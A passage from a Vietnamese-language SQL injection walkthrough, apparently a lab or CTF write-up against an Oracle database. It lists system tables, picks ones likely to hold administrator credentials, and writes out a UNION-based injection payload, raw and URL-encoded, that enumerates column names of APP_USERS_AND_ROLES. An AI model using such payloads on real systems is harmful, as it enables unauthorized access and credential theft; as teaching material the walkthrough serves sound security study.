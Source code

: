 SDO_PRIME_MERIDIANS

SDO_PROJECTIONS_OLD_SNAPSHOT

SDO_ST_TOLERANCE

SDO_TOPO_DATA\$

SDO_TOPO_RELATION_DATA

SDO_TOPO_TRANSACT_DATA

SDO_TXN_IDX_DELETES

SDO_TXN_IDX_EXP_UPD_RGN

SDO_TXN_IDX_INSERTS

SDO_UNITS_OF_MEASURE

SDO_XML_SCHEMAS

SRSNAMESPACE_TABLE

STMT_AUDIT_OPTION_MAP

SYSTEM_PRIVILEGE_MAP

TABLE_PRIVILEGE_MAP

**USERS_KNNNGC**

WRI\$\_ADV_ASA_RECO_DATA

WRR\$\_REPLAY_CALL_FILTER

WWV_FLOW_DUAL100

WWV_FLOW_LOV_TEMP

WWV_FLOW_TEMP_TABLE

XDB\$XIDX_IMP_T

Dựa vào kinh nghiệm thì ta có thể thấy vài bảng có khả năng khai thác
được username và password của administrator như **APP_USERS_AND_ROLES,
APP_ROLE_MEMBERSHIP, USERS_KNNNGC**

Tạm thời ta thử chọn **APP_USERS_AND_ROLES** để khai thác trước

Bước 4: Thực hiện khai thác username và password từ bảng đã chọn

Để lấy được thông tin cần từ bảng thì ta cần tên của cột chứa thông tin

Bảng ALL_TAB_COLUMNS có cột COLUMN_NAME chứa tên của các cột trong bảng
tương ứng với cột TABLE_NAME, cả hai cột đều là kiểu string. Giờ ta cần
tạo payload khai thác tên của các cột trong bảng **APP_USERS_AND_ROLES**

\' union select COLUMN_NAME,NULL from ALL_TAB_COLUMNS where TABLE_NAME =
\'**APP_USERS_AND_ROLES\'**\--

encode

\'+union+select+COLUMN_NAME,NULL+from+ALL_TAB_COLUMNS+where+TABLE_NAME+=+\'**APP_USERS_AND_ROLES\'**\--
